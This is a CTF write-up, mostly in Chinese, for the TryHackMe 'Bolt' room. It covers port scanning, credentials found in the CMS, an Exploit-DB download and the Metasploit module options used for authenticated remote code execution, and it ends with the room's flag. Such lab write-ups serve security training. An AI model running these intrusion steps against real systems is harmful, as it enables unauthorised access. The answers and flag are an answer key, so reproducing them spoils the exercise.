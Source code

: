 # Bolt Writeup
> URL : https://tryhackme.com/room/bolt

IP : 10.10.51.13

## Recon
- `rustscan -a 10.10.51.13`
	- ![](https://i.imgur.com/rbBcQvt.png)
	- 發現有開
		- 22
		- 80
		- 8000
- `nmap -A -p22,80,8000 10.10.51.13`
	- ![](https://i.imgur.com/CeiD0Rn.png)
- 觀察網頁
	- 80
		- ![](https://i.imgur.com/rhs8G5g.png)
	- 8080
		- ![](https://i.imgur.com/O89E4in.png)

- What port number has a web server with a CMS running?
	- 8000
- What is the username we can find in the CMS?
	- ![](https://i.imgur.com/uuS49nr.png)
	- `bolt`
- What is the password we can find for the username?
	- ![](https://i.imgur.com/uYjlWzV.png)
	- `boltadmin123`

- `python3 dirsearch.py -u http://10.10.51.13:8000/ -e all`
	- `http://10.10.51.13:8000/.htaccess`
		- 裡面沒什麼特別
- 網路上找到後臺網址
	- http://10.10.51.13:8000/bolt/login
	- ![](https://i.imgur.com/ObFh4vj.png)
- What version of the CMS is installed on the server? (Ex: Name 1.1.1)
	- `Bolt 3.7.1`
	- 上一張截圖最下面有寫
- Google `Bolt 3.7.1 Exploit`
	- https://www.exploit-db.com/exploits/48296
	- `wget https://www.exploit-db.com/download/48296 -O 48296.py`

- There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?
	- 48296
	- 不知道為什麼，我 run 起來失敗QQ
- 網路上找到另外一組 exploit
	- https://medium.com/@foxsin34/bolt-cms-3-7-1-authenticated-rce-remote-code-execution-ed781e03237b
	- ![](https://i.imgur.com/W26KDy6.png)
	- 他莫名的把我的密碼改成 `password` 了
	- 但是也沒有用 ?__?
- 改用 msf
	- `search bolt`
		- ![](https://i.imgur.com/XTxmdaA.png)
	- 找到了第 0 個 RCE 的
	- `use 0`
	- `set PASSWORD password`
	- `set USERNAME bolt`
	- `set RHOSTS 10.10.51.13`
	- `set LHOST tun0`
	- `show options`
	- ![](https://i.imgur.com/zIX4Qdc.png)

- `exploit`
	- ![](https://i.imgur.com/hcny3lE.png)
	- ![](https://i.imgur.com/Vdxp4Rd.png)
- 成功 RCE 取得 flag
	- ![](https://i.imgur.com/z8huKEP.png)
	- `THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`
